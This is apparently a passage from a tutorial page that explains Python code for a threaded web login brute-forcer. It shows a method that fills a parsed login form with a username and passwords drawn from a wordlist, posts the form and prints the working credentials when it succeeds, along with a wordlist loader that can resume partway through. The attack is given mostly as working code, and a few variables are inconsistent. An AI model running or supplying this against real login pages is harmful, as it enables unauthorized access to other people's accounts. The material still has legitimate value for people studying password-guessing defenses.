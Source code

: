 ```python
            parser = BruteParser()
            parser.feed(page)
            post_tags = parser.tag_results

            post_tags[username_field] = self.username
            post_tags[password_field] = brute

            login_data = urllib.parse.urlencode(post_tags)
            login_response = opener.open(target_post, login_data)
            login_result = login_response.read()

            if success_check in login_result:
                self.found = True
                print("[*] Bruteforce successful.")
                print("[*] Username: %s" % username)
                print("[*] Password: %s" % brute)
                print("[*] Waiting for other threads to exit...")
```

- Definition of the `Bruter` class:
  - `__init__`: Constructor method initializes the object with a target username, a queue of passwords, and a flag indicating if the correct password is found.
  - `run_bruteforce`: Method starts multiple threads to execute the `web_bruter` method concurrently.
  - `web_bruter`: Method performs the actual brute-force attack by sending HTTP requests with different passwords, parsing HTML to extract form fields, and checking for successful login.

```python
def build_wordlist(wordlst_file):
    # read in the word list
    fd = open(wordlst_file, "r")
    raw_words = [line.rstrip('\n') for line in fd]
    fd.close()

    found_resume = False
    word_queue = queue.Queue()

    for word in raw_words:
        word = word.rstrip()
        if resume is not None:
            if found_resume:
                word_queue.put(word)
            else:
                if word == resume:
                    found_resume = True
                    print("Resuming wordlist from: %s" % resume)
        else:
            word_queue.put(word)
    return word_queue
```

- Definition of the `build_wordlist` function:
  - Reads passwords from a wordlist file.
  - Supports resuming from a specified point.

